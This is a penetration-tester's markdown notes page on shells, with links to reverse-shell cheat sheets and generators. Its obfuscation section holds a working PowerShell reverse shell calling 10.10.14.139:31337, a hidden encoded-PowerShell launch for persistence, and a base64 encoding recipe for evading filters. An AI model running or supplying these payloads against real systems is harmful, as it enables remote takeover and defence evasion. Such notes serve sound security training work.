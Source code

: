 # Shells

## Introduction

A shell is the user interface of a system, either in a form of a Command Line Interface or Graphical User Interface, is used to interact with system.  To differentiate, modern terminals are still GUIs applications whereas a Headless install of a OS would closer to 20th Century common user interaction with a system. This article is conceptual breakdown of types of shells:
- For large maintained list of reverse shells check: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Cheatsheet from `highoncoffee`.
- Generate reverse shells with [revshells](https://www.revshells.com/). 
- Hack-Tools browser plugin also has reverse shell generator for [Chrome](https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi) and [Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/)

## Shells 101

A shell is command line or graphical user interface of a system, the outermost layer to interact with it. Some example commands to demonstrate usage here list of Linux networking commands help. For more see [[Core-Linux-Commands]]. For  useful list of windows commands see [[Windows-Commands]]

## Linux Shells

The trailing `$` or `#` character indicates that the shell is awaiting your input and also indicates whether Bash recognises you as a normal user with `$`  or as a root  `#`.

## Bind and Reverse Shells

[[Bind-And-Reverse-Shells-Defined]] for explanations, alternative frameworks and tool or [[Reverse-Shells-Listing]] for something close to PayloadAllTheThings, but just for shells

## ICMP Shells

[[Nishang-Helpsheet]] has an  [ICMP reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1), requires `python2`
[Bdamele](https://github.com/bdamele/icmpsh)'s ICMP shell 

## Encoding / Obfuscated Shells

`Start-Process` [[Persistence]] for the 2 is 1 and 1 is none MalwareJake mentality 
```powershell
Start-Process -NoNewWindow powershell "-nop -Windowstyle hidden -ep bypass -enc $b64EncodeShellOrCmdToShell
```

[[PowerShell]] Filter evasion
```powershell
$a = New-Object System.Net.Sockets.TCPClient('10.10.14.139',31337);$b = $a.GetStream();[byte[]]$c = 0..65535|%{0};while(($i = $b.Read($c, 0, $c.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($c,0, $i);$f = (iex $d 2>&1 | Out-String );$g = $f + 'PS ' + (pwd).Path + '> ';$e = ([text.encoding]::ASCII).GetBytes($g);$b.Write($e,0,$e.Length);$b.Flush()};$a.Close()
# client -> a
# stream -> b
# bytes -> c
# data -> d
# sendbyte -> e
# sendback -> f
# sendback2 -> f2 -> g
```

Base64 encoding with width 0 (no `=` symbol) with Linux `iconv` from ASCII to UTF-16LE then remove newlines and 
```bash
iconv -f ASCII -t UTF-16LE rshell.txt | tr -d "\n" | base64 -w0 
```

[gh0x0st/Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell/tree/main) is *"a solution to create obfuscated reverse shells for PowerShell."*

## References

[Chrome](https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi) 
[Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/)
[Bdamele's icmpsh](https://github.com/bdamele/icmpsh)
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[gh0x0st/Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell/tree/main) 